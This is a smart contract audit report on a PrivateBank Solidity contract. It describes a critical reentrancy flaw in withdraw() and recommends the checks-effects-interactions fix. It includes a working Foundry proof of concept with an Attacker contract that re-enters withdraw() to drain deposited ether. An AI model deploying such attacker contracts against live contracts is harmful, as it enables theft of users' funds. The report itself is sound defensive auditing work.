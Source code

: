 
# Smart Contract Audit Report

## Audit Details

- **Auditor:** César Escribano (https://github.com/ceseshi)
- **Client:** Vottun
- **Date:** 3-May-2024
- **Description:** Security review of the PrivateBank smart contract, an Activity for the Vottun Journey
- **Audit Type:** Manual
- **Languages:** Solidity
- **Scope:** PrivateBank.sol

## Findings

### [H-1] Reentrancy in withdraw()

#### Severity

Critical

#### Description

It is possible to drain the funds of the PrivateBank contract through a re-entrancy attack.

To do this, an attacker contract can deposit an amount of ether and then withdraw it. Upon entering the attacker's fallback() function, the balance of his account in the PrivateBank will not yet have been reset to zero, so the attacker can call withdraw() again, repeating the operation until the PrivateBank contract is drained.

#### PoC (Froundry)
```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

import "forge-std/Test.sol";
import "../src/PrivateBank.sol";

contract PrivateBankTest is Test {
    PrivateBank bank;
    Attacker attacker;

    function setUp() public {
        // Prepare contracts
        bank = new PrivateBank();
        attacker = new Attacker(bank);

        // Prepare addresses
        address alice = makeAddr("alice");
        address bob = makeAddr("bob");
        address carol = makeAddr("carol");

        vm.deal(alice, 1 ether);
        vm.deal(bob, 3 ether);
        vm.deal(carol, 5 ether);

        // Fund the PrivateBank
        vm.prank(bob);
        bank.deposit{value: bob.balance}();

        vm.prank(carol);
        bank.deposit{value: carol.balance}();
    }

    function testReentrancy() public {
        address alice = makeAddr("alice");
        vm.prank(alice);

        // Perform the attack
        uint256 amountAttack = alice.balance;
        attacker.attack{value: amountAttack}();

        // Check that the attacker has more than they started with
        assert(address(attacker).balance > amountAttack);
    }
}

contract Attacker {
    PrivateBank bank;

    constructor(PrivateBank _bank) {
        bank = _bank;
    }

    function attack() external payable {
        bank.deposit{value: msg.value}();
        bank.withdraw();
    }

    receive() external payable {
        if (address(bank).balance >= msg.value) {
            bank.withdraw();
        }
    }
}
```
#### Recommendations

Must follow the checks-effects-interactions pattern.

For this, the account balance must be modified prior to withdrawal (lines 17 to 20):

```solidity
    balances[msg.sender] = 0;
    (bool success, ) = msg.sender.call{value: balance}("");
    require(success, "Failed to send Ether");
```

